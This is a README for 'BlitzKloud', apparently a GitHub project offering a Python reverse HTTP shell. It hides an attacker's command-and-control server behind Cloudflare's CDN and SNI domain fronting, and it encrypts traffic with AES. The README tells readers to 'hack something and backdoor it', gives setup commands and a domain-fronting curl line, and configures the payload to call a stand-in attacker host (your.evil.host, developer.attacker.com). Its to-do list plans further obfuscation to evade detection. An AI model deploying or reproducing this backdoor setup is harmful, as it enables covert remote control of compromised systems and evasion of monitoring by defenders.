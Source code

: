 # BlitzKloud
==================

<p> A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  </p>
<br>

<p><i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i></p>


#### Concept



<p>Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is essentially a giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for AES with 
the payload because I imported functionality from pyaes directly.).  The goal was to create 
 a pure python3- powered reverse shell with miminal, (eventually no) outside dependencies 
(for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).
</p>

<p>
This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:
</p>


<p><b>SNI Proof of Concept:</b></p>
<pre>
 $ curl -H "Host: your.remote.host" http://upwork.com
</pre>
<p>
For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting
</p>


![domain front](domain-front.png)


#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)

<b>Setup & Configuration: </b>

<p>First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. </p>

<p>
Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzkloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

<p>
Test to make sure that the listener runs and has been installed correctly:
</p>

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880)...
</pre>

<p>Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8800.</p>

<p>
Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:
</p>

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

<p>This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:</p>

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'your.evil.host'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

<p>
Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.
</p>


#### TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better concealing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
